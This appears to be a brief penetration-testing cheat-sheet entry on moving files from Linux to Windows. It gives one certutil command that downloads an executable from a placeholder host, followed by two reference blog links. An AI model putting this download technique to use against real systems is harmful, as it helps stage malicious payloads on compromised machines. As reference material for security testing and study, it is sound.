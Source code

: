 # **Transferring files**

File Transfer (download copy from linux to windows)

```
certutil -urlcache -f http://ip/1.exe 1.exe​
```

```
https://blog.ropnop.com/transferring-files-from-kali-to-windows/https://blog.netspi.com/15-ways-to-download-a-file/
```

​
